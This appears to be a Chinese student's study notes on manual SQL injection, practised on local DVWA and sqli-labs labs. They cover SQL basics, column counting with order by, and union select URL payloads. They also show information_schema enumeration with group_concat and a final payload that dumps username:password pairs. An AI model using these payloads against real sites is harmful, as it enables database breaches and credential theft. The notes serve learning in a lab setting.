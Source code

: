 # 暑期周报2

## SQL 注入

### SQL语句语法：

查询当前数据库服务器所有的数据库:==show databases;==

选中某个数据库：==use 数据库名字==

查询当前数据库所有的表：==show tables;==

查询t1表所有数据：查询关键 select      *所有      from   表名

==select    *  from t1;==

条件查询 id=2   where 条件

==select * from t1 where id=2;==

union 合并查询

2个特性：前面查询的语句  和  后面查询的语句  结果互不干扰

前面查询语句的字段数量   和  后面查询语句的字段数量   要一致

查询id=2   pass=111

==select *from t1 where id=2 union select * from t1 where pass=111;==

order by  排序

==order  by  字段名字  id== 也可以  跟上数字 1 2 3 4 ……

猜解表的列数   知道表有几列

## 数据库服务器

![image-20250803143626267](../AppData/Roaming/Typora/typora-user-images/image-20250803143626267.png)

```
SCHEMATA 表：提供了当前MySQL实例中所有数据库信息， show databases结果取之此表。

	TABLES表：提供了关于数据中表的信息。table_name

	COLUMNS表：提供了表的列信息，详细描述了某张表的所有列以及每个列的信息。column_name
```

![image-20250803144454346](../AppData/Roaming/Typora/typora-user-images/image-20250803144454346.png)

DVWA:http://127.0.0.1/dvwa

sql-labs:http://localhost/sqli-labs

## 尝试手工注入：

index.php?id=1

sql注入

#### 1.判断有无注入点，and 1=1

select * from user where name = $name and 1=1

随便输入的内容    ==    报错      注入

​                             否则   没有注入

#### 2.猜解列名数量  order  by   排序  %20 空格

字段 4个

#### 3.报错  判断回旋点  union  合并查询

index.php?id=99%20union%20select%201,2,3

![image-20250804224125108](../AppData/Roaming/Typora/typora-user-images/image-20250804224125108.png)

#### 4.信息的收集

版本号  version()

![image-20250804224833212](../AppData/Roaming/Typora/typora-user-images/image-20250804224833212.png)

数据库名称 database()

![image-20250804225115431](../AppData/Roaming/Typora/typora-user-images/image-20250804225115431.png)

数据库版本
高版本：5.0  系统库（4个）

低版本：5.0

#### 5.使用对应的sql进行注入

数据库库名：security

.下一级

![image-20250805101523544](../AppData/Roaming/Typora/typora-user-images/image-20250805101523544.png)

![image-20250804231644872](../AppData/Roaming/Typora/typora-user-images/image-20250804231644872.png)

```
尝试手工注入：
		SQL注入： 
		1.判断有无注入点   and 1 = 1； true 
		随便输入内容  ==  报错  注入
		              ==  没有注入
		2.猜解列名数量 order by %20 空格
		字段 4个

		3.报错，判断回显点 union 
		4.信息收集 
		  数据库版本 version()
		  高版本：5.0  
			系统库： infromation 。。。
		  数据库名称：database（）
		  低版本：5.0 
		5.使用对应SQL进行注入  
			数据库库名：security
		. 下一级  
		infromation_schema.tables 查找表名
		table_name
		查询serurity库下面 所有的表名 

		database（）


		= 前后 连到一起
		union select 1,group_concat(table_name),3 from information_schema.tables
		where table_schema=database()

		表： users
		如何查询表里面有那些字段？ 
		user 字符 转行 16进制
		union select 1,group_concat(column_name),3 from information_schema.columns
		where table_name=0x7573657273

		username  password  字段数据  
		select username,password from users
		0x3a  :
		union select 1,2,(select group_concat(username,0x3a,password)from users)
		  
```

